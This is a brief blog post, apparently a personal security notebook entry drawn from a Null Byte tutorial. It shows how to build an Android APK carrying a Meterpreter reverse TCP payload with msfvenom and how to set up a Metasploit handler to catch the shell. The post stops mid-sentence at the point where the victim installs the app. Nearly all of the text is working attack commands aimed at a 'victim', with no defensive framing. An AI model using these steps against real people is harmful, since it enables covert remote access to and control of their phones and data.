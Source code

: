 ```yaml
---
layout: pst
title: "MSF: Android/Meterpreter/reverse_tcp"
date:   2021-01-24 21:20:43 +0800
categories: sec
permalink: /:categories/:title
---
```

Source: <a href="https://null-byte.wonderhowto.com/forum?create-and-use-android-meterpreter-reverse-tcp-apk-with-msfvenom-0162921/">https://null-byte.wonderhowto.com/forum?create-and-use-android-meterpreter-reverse-tcp-apk-with-msfvenom-0162921/</a>


LHOST = host ip
LPORT = host port

Create payload using msfvenom:
{% highlight console %}
    $msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.111 LPORT=8000 > name.apk
{% endhighlight %}

On the atackker side:
{% highlight console %}
    $msfconsole
{% endhighlight %}
{% highlight console %}
    $use  exploit/multi/handler
    $set payload android/meterpreter/reverse_tcp
    $set lhost 192.168.0.111
    $set lport 8000
    $exploit
{% endhighlight %}

When the victim installed the payload 